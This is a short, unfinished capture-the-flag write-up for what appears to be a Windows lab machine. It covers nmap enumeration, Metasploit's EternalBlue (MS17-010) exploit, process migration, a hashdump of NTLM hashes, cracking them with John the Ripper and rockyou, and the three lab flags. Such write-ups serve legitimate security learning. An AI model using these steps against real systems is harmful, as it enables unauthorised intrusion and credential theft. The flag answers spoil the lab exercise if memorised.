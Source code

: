 # TODO: need to fininsh this

\#Lazy Writeup

### Enum

> nmap -A $TARGET

> nmap -p 1-1000 $TARGET

> nmap --script vuln -p 135,139,445,3389 $TARGET


### Metasploit

> msf\> search ms17

> msf\> use exploit/windows/smb/ms17_010_eternalblue

> msf\> sessions -u 1

---

> ps

> migrate 2528 //SVCHOST.exe

### Cracking

> hashdump

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

> john --wordlist=/usr/share/wordlists/rockyou.txt --forman=NT jon.hash


### Flags

1. flag 1:

	> C:\>type flag1.txt

	```
	flag{access_the_machine}
	```

2. flag 2:
	googled: where does windows store passwords.

	C:\Windows\System32\config>type flag2.txt

	```
	flag{sam_database_elevated_access}
	```

3. flag 3:
	used write-ups. Didn't get the hint

	> C:\Users\Jon\Documents>type flag3.txt
	type flag3.txt
	flag{admin_documents_can_be_valuable}
